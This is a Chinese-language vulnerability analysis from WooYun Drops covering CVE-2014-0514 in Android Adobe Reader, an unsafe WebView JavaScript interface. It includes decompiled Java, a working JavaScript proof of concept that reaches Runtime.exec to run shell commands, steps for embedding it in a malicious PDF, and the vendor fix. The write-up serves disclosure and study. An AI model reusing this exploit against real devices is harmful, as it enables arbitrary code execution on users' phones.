



# Android Adobe Reader 任意代码执行分析(附 POC)

2014/04/18 14:05 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [移动安全](http://drops.wooyun.org/category/mobile "查看 移动安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 描述

* * *

前几天老外在 fd 还有 exploit-db 上，公布了 Adobe Reader 任意代码执行的漏洞。

漏洞编号： [CVE: 2014-0514](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0514)

AdobeReader 安装量比较大，又和浏览器容器不同，分析一下。

Android Adobe Reader 调用 webview 的不安全的 Javascript interfaces。

导致可以执行任意 js 代码。具体查看[WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)。

影响版本：

理论上 Android Adobe Reader 11.2.0 之前的版本多存在，Android version 11.1.3 成功利用。

我查看了之前的几个版本例如 Android Adobe Reader 11.1.2 如下图，问题也应该存在。



## 0x01 利用

* * *

从反编译出来的 java 代码看

```
public class ARJavaScript
{
[...]

   public ARJavaScript(ARViewerActivity paramARViewerActivity)
   {
[...]
      this.mWebView.addJavascriptInterface(new ARJavaScriptInterface(this), "_adobereader");
      this.mWebView.addJavascriptInterface(new ARJavaScriptApp(this.mContext), "_app");
      this.mWebView.addJavascriptInterface(new ARJavaScriptDoc(), "_doc");
      this.mWebView.addJavascriptInterface(new ARJavaScriptEScriptString(this.mContext), "_escriptString");
      this.mWebView.addJavascriptInterface(new ARJavaScriptEvent(), "_event");
      this.mWebView.addJavascriptInterface(new ARJavaScriptField(), "_field");
      this.mWebView.setWebViewClient(new ARJavaScript.1(this));
      this.mWebView.loadUrl("file:///android_asset/javascript/index.html");
   }

```

`_adobereader，_app，_doc，_escriptString，_event，_field`这几个变量都会存在任意代码执行的问题.

利用代码和之前一样。

```
function execute(bridge, cmd) {
   return bridge.getClass().forName('java.lang.Runtime')
      .getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}

if(window._app) {
   try {
      var path = '/data/data/com.adobe.reader/mobilereader.poc.txt';
      execute(window._app, ['/system/bin/sh','-c','echo \"Lorem ipsum\" > ' + path]);
      window._app.alert(path + ' created', 3);
   } catch(e) {
      window._app.alert(e, 0);
   }
}

```

这里不同是构造 恶意的 PDF。

首先需要一个 PDF 编辑器，比如 Adobe Acrobat（flash 达人 pz 推荐）.

然后添加表单按钮或者书签等，调用事件添加



我这里看了下 button 最好演示，和老外的那个 poc 一样基本上.

导入到 android 虚拟机里，打开，成功复现。



## 0x02 扩展

* * *

一些网盘或浏览器，看看能否调用 adobe reader 来预览 pdf 的应用可能会存在这个漏洞，大部分应用都是直接下载 pdf 到本地。可以再测试一些能预览 pdf 的邮箱之类的应用。

## 0x03 修复

* * *

新版本的 Adobe Reader 11.2.0 为 4.2 以上的用户使用了安全的 js 调用接口 @JavascriptInterface，老版本的用户则在 adobereader 禁用了表单的 js 执行。 不知道那些杀毒软件能不能检测到这些恶意 poc 呢 :）

附上[poc.pdf](http://static.wooyun.org/20141017/2014101711445669638.pdf)

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)
*   [CVE-2014-1806 .NET Remoting Services 漏洞浅析](http://drops.wooyun.org/papers/3993)
*   [Android Logcat Security](http://drops.wooyun.org/tips/3812)
*   [Samsung S Voice attack](http://drops.wooyun.org/tips/2736)
*   [Android Activtity Security](http://drops.wooyun.org/tips/3936)
*   [Android uncovers master-key 漏洞分析](http://drops.wooyun.org/papers/219)